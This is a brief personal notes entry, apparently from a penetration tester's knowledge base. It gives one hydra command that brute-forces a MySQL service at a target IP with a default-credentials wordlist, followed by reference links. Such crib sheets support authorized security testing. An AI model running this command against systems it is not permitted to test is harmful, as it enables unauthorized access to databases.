 # brute force default credentials mysql
```bash
hydra $IP mysql -C /usr/share/seclists/Passwords/Default-Credentials/mysql-betterdefaultpasslist.txt -t 1
```

# References
- [20221003150807](/zet/20221003150807/) brute force default credentials
- ~/kb/hacking/commands/hydra-default-credentials.md

Tags:
    #assorted

